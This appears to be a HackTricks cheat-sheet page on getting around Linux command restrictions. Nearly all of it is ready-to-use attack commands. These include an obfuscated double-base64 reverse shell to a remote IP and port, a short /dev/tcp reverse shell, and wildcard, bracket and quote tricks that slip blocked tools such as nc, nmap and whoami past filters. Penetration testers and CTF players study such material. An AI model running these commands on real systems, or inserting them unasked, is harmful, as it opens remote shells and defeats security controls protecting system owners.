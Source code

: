 # Bypass Linux Restrictions

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

![](../.gitbook/assets/image%20\(9\)%20\(1\)%20\(2\).png)

\
Use [**Trickest**](https://trickest.io/) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Common Limitations Bypasses

### Reverse Shell

```bash
# Double-Base64 is a great way to avoid bad characters like +, works 99% of the time
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
# echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0NEx6UTBORFFnTUQ0bU1Rbz0K|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

### Short Rev shell

```bash
#Trick from Dikline
#Get a rev shell with
(sh)0>/dev/tcp/10.10.10.10/443
#Then get the out of the rev shell executing inside of it:
exec >&0
```

### Bypass Paths and forbidden words

```bash
# Question mark binary substitution
/usr/bin/p?ng # /usr/bin/ping
nma? -p 80 localhost # /usr/bin/nmap -p 80 localhost

# Wildcard(*) binary substitution
/usr/bin/who*mi # /usr/bin/whoami

# Wildcard + local directory arguments
touch -- -la # -- stops processing options after the --
ls *
echo * #List current files and folders with echo and wildcard

# [chars]
/usr/bin/n[c] # /usr/bin/nc

# Quotes
'p'i'n'g # ping
"w"h"o"a"m"i # whoami
ech''o test # echo test
ech""o test # echo test
bas''e64 # base64
```